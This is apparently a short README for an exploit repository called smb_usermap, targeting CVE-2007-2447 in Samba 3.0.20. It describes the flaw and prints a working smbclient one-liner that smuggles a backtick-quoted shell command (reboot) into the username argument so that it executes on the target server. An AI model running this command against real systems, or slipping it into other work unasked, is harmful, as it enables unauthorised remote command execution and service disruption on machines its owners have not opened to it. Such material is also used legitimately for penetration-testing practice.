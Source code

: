 # smb_usermap
A simple exploit for CVE-2007-2447, present in Samba 3.0.20.

You can exploit this vuln with even less than this, for instance, with smbclient, but I think it's tough to do complex commands, since a lot of special chars probably get eaten, but a simple command (reboot in this case) can be passed like this:

``
smbclient -L <target IP> --user="/=\`reboot\`" -N
``
